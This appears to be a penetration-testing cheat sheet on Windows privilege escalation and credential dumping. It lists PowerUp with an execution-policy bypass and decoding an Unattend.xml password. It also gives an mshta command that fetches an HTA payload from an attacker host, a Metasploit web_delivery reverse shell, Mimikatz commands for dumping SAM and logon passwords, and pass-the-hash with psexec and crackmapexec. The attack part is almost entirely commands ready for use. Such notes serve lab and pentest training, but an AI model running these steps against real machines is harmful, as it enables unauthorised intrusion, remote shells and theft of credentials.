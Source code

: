 # PowerUp.ps1

- Download url - https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- `powershell -ep bypass` (PowerShell execution policy bypass)
	- `. .\PowerUp.ps1`
	- `Invoke-PrivescAudit` - it will find misconfig files/leftover files like Unattend.xml
	![Invoke-PrivescAudit output](./images/credsdump-01.png)
	- Get password from the Unattend.xml file, decode base64.
	- 
	```
	$password='QWRtaW5AMTIz'
  	$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	echo $password
  	```
	- runas.exe /user:administrator cmd

- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta

**OR**

- exploit/multi/script/webdelivery : when no vulnerable services running but you have access to victim cmd
	- set target PSH\ (Binary)
	- set payload windows/shell/reverse_tcp
	- set PSH-EncodedCommand false
	- copy-paste generated url and execute on victim cmd. should open shell in msf.
- post/multi/manage/shell_to_meterpreter
	- set WIN_TRANSFER VBS


# Mimikatz

- in meterpreter, first, migrate to lsass.exe process.
- run hashdump in meterpreter
- syskey is used to encrypt sam db

- **load kiwi**
	- creds_all
	- lsa_dump_sam
	- lsa_dump_secrets

- alrenatively, create temp directory in C:\Temp and 
- upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
- **.\mimkatz.exe**
	- privilege::debug - should return Privilege '20' OK - This should be a standard for running mimikatz as mimikatz needs local administrator access
	- lsadump::sam
	- sekurlsa::logonpasswords

- use **windows/smb/psexec** to use hashes from hashdump as SMBPass
- set target command / native upload

- `crackmapexec smb <ip> -u <administrator> -H "ntlm_hash" -x "ipconfig"`
![crackmapexec output](./images/credsdump-02.png)